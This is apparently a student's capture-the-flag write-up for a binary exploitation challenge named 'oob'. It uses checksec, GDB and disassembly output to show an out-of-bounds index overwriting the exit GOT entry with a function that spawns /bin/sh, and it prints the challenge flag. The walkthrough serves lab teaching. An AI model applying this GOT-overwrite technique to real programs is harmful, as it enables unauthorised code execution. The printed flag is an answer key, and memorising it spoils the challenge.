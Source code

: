 # Oob:Solution

The binary is compiled with NX, a stack canary, and PIE
```
checksec chal.bin 
[*] '/root/workspace/vuln/oob/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

When we look at the binary in GDB, we can break at main, run it, then look at the got values. 
```
GOT protection: No RELRO | GOT functions: 7
 
[0x555555557500] __stack_chk_fail@GLIBC_2.4 -> 0x555555555036 (__stack_chk_fail@plt+6) ◂— push 0 /* 'h' */
[0x555555557508] setbuf@GLIBC_2.2.5 -> 0x7ffff7c88060 (setbuf) ◂— endbr64 
[0x555555557510] system@GLIBC_2.2.5 -> 0x555555555056 (system@plt+6) ◂— push 2
[0x555555557518] printf@GLIBC_2.2.5 -> 0x555555555066 (printf@plt+6) ◂— push 3
[0x555555557520] read@GLIBC_2.2.5 -> 0x555555555076 (read@plt+6) ◂— push 4
[0x555555557528] __isoc99_scanf@GLIBC_2.7 -> 0x555555555086 (__isoc99_scanf@plt+6) ◂— push 5
[0x555555557530] exit@GLIBC_2.2.5 -> 0x555555555096 (exit@plt+6) ◂— push 6
```

Looking at the binary in binja, we could see that the menu function makes a call to the exit function. Since exit hadn't been initialized yet we could write to it.
```
000035e8  extern void exit(int32_t status) __noreturn
```

Since this was an out of bounds problem, I started trying negative numbers. When I tried -3 it gave me a memory address. Using GDB I was able to check each negative numbers output from memory. Eventually I found that -6 produced the call to exit.
```
pwndbg> x/s 0x555555555096
0x555555555096 <exit@plt+6>:    "h\006"
```

So next I had to figure out how to get the flag. Looking through the functions in binja we can see that the function 'admin' has a system call to /bin/sh. So we need to write the address of that function into exit.
```
admin:
   0 @ 0000120b  void* fsbase
   1 @ 0000120b  int64_t rax = (fsbase + 0x28)
   2 @ 00001224  system(line: "/bin/sh")
   3 @ 0000122e  int64_t rax_2 = rax -(fsbase + 0x28)
   4 @ 00001237  if (rax == *(fsbase + 0x28))
```

Then when the program comes back to the menu we just have to choose the song that will call the exit function, since the exit function now contained the admin function address. From there we use interactive part of process to cat the flag and get the flag!

```
flag{Th1s_T3rr1ble_S1l3nc3_st0ps_m3}
```

Resources:
* Class Slides
* Louie
